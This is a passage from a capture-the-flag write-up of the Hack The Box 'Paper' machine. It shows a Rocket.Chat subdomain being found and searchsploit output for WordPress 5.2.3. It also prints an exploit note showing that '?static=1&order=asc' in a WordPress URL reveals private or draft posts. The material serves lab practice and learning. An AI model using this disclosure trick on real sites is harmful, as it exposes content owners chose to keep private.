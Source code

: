 We found a subdomain called `chat`, let's add it to /etc/hosts file and go see what's there.

![](6.png)

We found a login page for rocket.chat

```terminal
┌──(sirius㉿kali)-[~/CTF/HTB/Machines/paper]
└─$ searchsploit wordpress 5.2.3
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Core 5.2.3 - Cross-Site Host Modification                                                                        | php/webapps/47361.pl
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                    | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                                                    | php/dos/47800.py
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                        | php/webapps/39553.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL Injection                                                                  | php/webapps/44943.txt
WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection                                                                | php/webapps/48918.sh
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                             
┌──(sirius㉿kali)-[~/CTF/HTB/Machines/paper]
└─$ searchsploit -m multiple/webapps/47690.md
  Exploit: WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts
      URL: https://www.exploit-db.com/exploits/47690
     Path: /usr/share/exploitdb/exploits/multiple/webapps/47690.md
File Type: ASCII text

Copied to: /home/sirius/CTF/HTB/Machines/paper/47690.md


                                                                                                                                                             
┌──(sirius㉿kali)-[~/CTF/HTB/Machines/paper]
└─$ cat 47690.md 
So far we know that adding `?static=1` to a wordpress URL should leak its secret content

Here are a few ways to manipulate the returned entries:

- `order` with `asc` or `desc`
- `orderby`
- `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format


In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content: 
```
